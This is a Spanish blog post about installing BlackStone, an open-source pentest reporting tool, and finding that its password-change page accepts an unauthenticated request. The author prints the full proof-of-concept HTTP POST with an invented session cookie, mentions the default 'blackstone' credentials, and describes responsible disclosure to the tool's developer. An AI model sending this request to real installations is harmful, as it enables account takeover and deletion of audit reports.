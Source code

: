 ```yaml
---
title: Bugbounty BlackStone
date: 2025-04-1 00:00:00 +0200
author: pablo
categories: [ciberseguridad, software]
tags: [bugbounty, blackstone, explotacionweb]     
image:
    path: https://user-images.githubusercontent.com/55983491/182504746-26c636f4-fe4f-410d-9898-e51f4ae35e6d.png
    alt: Blackstone
---
```


Antes de nada decir que fue mi propia curiosidad que me llevó a probar esta herramienta
[https://github.com/micro-joan/BlackStone](https://github.com/micro-joan/BlackStone), mis felicitaciones al autor Micro Joan, 
me parece que tiene una buena orientación a lo que el objetivo de esta herramienta. Según la propia información sería lo siguiente:
>El proyecto BlackStone o “BlackStone Project” es una herramienta creada con el fin de automatizar el trabajo de redacción y envío de informes sobre auditorías de hacking ético o pentesting.

Así que me dije, manos a la obra vamos a instalarlo.
Como el proyecto no parece y de hecho no fue difícil instalarlo a mano con Mariadb + php-fpm8.2 + nginx.
Dejo aquí la config por si alguien lo quiere probar, yo lo hice en Debian:

```
server {
	listen 8084 default_server;
	listen [::]:8084 default_server;

	root /var/www/BlackStone/;
	index index.html index.htm index.nginx-debian.html;
	server_name _;
	location / {
		try_files  / =404;
	}

	location ~ \.php$ {
		include snippets/fastcgi-php.conf;
		fastcgi_pass unix:/run/php/php8.2-fpm.sock;
	}

}
```

Bueno hay que crear la base de datos y ponerle una password al usuario para dicha base datos y
luego importamos la base de datos, damos por sentado que cambiarás la password no uses 'blackstone' (solo es para el ejemplo): 

```
MariaDB [(none)]> 
create database blackstone;
CREATE USER 'blackstone'@'localhost' IDENTIFIED BY 'blackstone';
GRANT PRIVILEGE ON blackstone.* TO 'blackstone'@'localhost';
MariaDB [(none)]> source /home/pablo/Descargas/blackstone.sql
```
Este usuario y password son los que vas a agregar a conexion.php
```
<?php
$host = "localhost";
$user = "blackstone";
$pass = "blackstone";
$basedatos = "blackstone";
$conexion = mysqli_connect($host, $user, $pass, $basedatos)
or die("Error al conectar a la base de datos");
// UTF-8 conjunto de caracteres por defecto para conexión MySQL
mysqli_query ($conexion, "SET NAMES 'utf8'");
?>
```
Vale ahora ya lo tengo corriendo, la password por defecto de la web es blackstone:blackstone
Abro la web, me logeo con las credenciales por defecto, y repaso los menús 
Veo que tiene opciones para crear reportes, manejo de vulnerabilidades, una calculadora NIST , gestión de clientes. Estupendo
esta herramienta promete.

![blackstone.png](../assets/img/postsimgs/blackstone.png)
Aquí es donde se tensa, llego a parte de settings y veo que hay una opción para cambiar las password __Change password__.
Llamó mi atención que el formulario solo tiene un campo. Con la de contraseñas que he cambiado y hacía tiempo que no me encontraba 
un cambio de contraseña así, tan simple, las alarmas saltaron en mi cabeza. 
Me hizo pensar en que podía intentar jugar y ver si el cambio de password era susceptible de realizarse por la falta de lo que
yo entendía un control fundamental. Que el cambio de contraseña requiera algún control de autenticación, sea a través del cookies de sesión
u otros métodos. 

Por mi parte con Zap Proxy [Hacktools#web-pentest-frameworks](../hacktools#web-pentest-frameworks) capturé el POST que se hace al 
enviar la password y repliqué el mismo para ver que efectivamente podía cambiar la password incluso inventándome la cookie 

Ahora modifico el POST para alterar la password a **hackedpassword** y me invento una cookie de sesión __Cookie: PHPSESSID=dsfjsdlfsidfjjsdfsdfsd__
y se lo traga, se cambia la password y con ella puedo logearme. Para asegurarme de que no sufría una alucinación, mejor dicho un falso positivo 
y de que no me equivoco, cambio la clave sin apuntala y escribo una secuencia aleatoria. Deslogeo y vuelvo a intentar logearme pero no se la 
contraseña, así que no puedo. Ahora lanzo el POST desde ZAP y compruebo que no me equivoco,
se podría cambiar la clave sin nisiquiera tener que tener session de PHP.


```
POST /editar_perfil.php HTTP/1.1
Host: 192.168.2.125:8084
Content-Length: 243
Cache-Control: max-age=0
Accept-Language: es-ES,es;q=0.9
Origin: http://192.168.2.125:8084
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryZANqX3u0BYVWXBym
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/134.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.2.125:8084/editar_perfil.php
Accept-Encoding: gzip, deflate, br
Cookie: PHPSESSID=dsfjsdlfsidfjjsdfsdfsd
Connection: keep-alive

------WebKitFormBoundaryZANqX3u0BYVWXBym
Content-Disposition: form-data; name="pass"

hackedpassword
------WebKitFormBoundaryZANqX3u0BYVWXBym
Content-Disposition: form-data; name="submit"


------WebKitFormBoundaryZANqX3u0BYVWXBym--
```

Conozco algún otro generador de informes como Dradis, pero me gusta mucho este y me gustaría usarlo en el futuro así que he optado por la opción de abrir un issue en proyecto de github. Estoy seguro que Micro Joan entusiasta de la programación y seguridad ofensiva, en pocas líneas es capaz de resolver esta vulnerabilidad, o al menos podría rebatirme que estoy equivocado, pero si no lo estoy, creo de alta criticidad pues un actor malicioso podría cambiar la contraseña de BlackStone y borrar todos los informes de la base de datos.

Otra cosa que no me convence en que las credencias van en el fichero conexion.php, supongo que es mi manía de no mezclar código y credenciales
meter esos datos en un archivo aparte creo que sería más acertado, si bien no son accesibles por medios comunes. 
Bueno he abierto el issue y creo que con esto cumplo con mi parte, no creo que este bugbounty tenga ninguna recompensa más allá de que el 
la vulnerabilidad sea resuelta y poder usar esta aplicación en el futuro, eso sí, con más seguridad. 
[https://github.com/micro-joan/BlackStone/issues/16](https://github.com/micro-joan/BlackStone/issues/16)

He contacado con Micro Joan por Linkedin y le he comentado la vulnerabilidad, aunque sea ara evitar un ataque de los de "por encima del hombro". 
Me ha contestado y me ha dicho que cuando tenga un hueco se pondrá con ello. 
Recordemos que muchas herramientas son gratuitas y creadas de forma altruista por gente que no sabemos si disponen del tiempo para regalarnos al resto
su código. 

Voy a esperar unos días hasta ver si se solucionan este problemilla y espero que BlackStone tenga un futuro en el mundo de las herramientas de 
ciberseguridad.

**El logo y la imagen del software BlackStone han sido obtenidos del proyecto original https://github.com/micro-joan/BlackStone y su autor Micro Joan.**




